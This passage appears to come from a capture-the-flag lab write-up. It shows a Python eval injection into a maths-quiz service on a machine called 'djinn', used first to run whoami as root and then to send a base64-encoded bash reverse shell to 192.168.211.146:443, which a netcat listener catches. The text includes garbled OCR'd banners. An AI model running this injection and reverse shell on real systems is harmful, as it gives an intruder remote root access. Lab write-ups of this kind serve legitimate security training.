 \| \| \_ / \_\` \| '\_ \` \_ \\ / \_ \\ \| \| \| \| '\_ \` \_ \\ / \_ \\

\| \|_\| \| (_\| \| \| \| \| \| \| \__/ \| \| \| \| \| \| \| \| \| \__/

\\____\|\\__,_\|_\| \|_\| \|_\|\\___\| \|_\| \|_\|_\| \|_\| \|_\|\\___\|

Let's see how good you are with simple maths

Answer my questions 1000 times and I'll give you your gift.

(6, '+', 1)

\> eval('__import__("os").system("whoami")')

root

Wrong answer

Next the same encoding was used to get a reverse root shell as the initial user
shell.

root\@lifesfun:\~\# nc -nv 192.168.211.145 1337

(UNKNOWN) [192.168.211.145] 1337 (?) open

\___\_ \____\_ \_

/ \___\| \_\_ \_ \_ \_\_ \__\_ \__\_ \|\_ \_(_)\_ \_\_ \__\_ \__\_

\| \| \_ / \_\` \| '\_ \` \_ \\ / \_ \\ \| \| \| \| '\_ \` \_ \\ / \_ \\

\| \|_\| \| (_\| \| \| \| \| \| \| \__/ \| \| \| \| \| \| \| \| \| \__/

\\____\|\\__,_\|_\| \|_\| \|_\|\\___\| \|_\| \|_\|_\| \|_\| \|_\|\\___\|

Let's see how good you are with simple maths

Answer my questions 1000 times and I'll give you your gift.

(6, '+', 9)

\> eval('__import__("os").system("echo
YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjIxMS4xNDYvNDQzIDA+JjEK \| base64 -d \|
bash")')

### Catching Reverse Shell

lifesfun:\~\# nc -nvlp 443

listening on [any] 443 ...

connect to [192.168.211.146] from (UNKNOWN) [192.168.211.145] 46628

bash: cannot set terminal process group (20312): Inappropriate ioctl for device

bash: no job control in this shell

root\@djinn:/\# whoami

whoami

root

### Root Flag
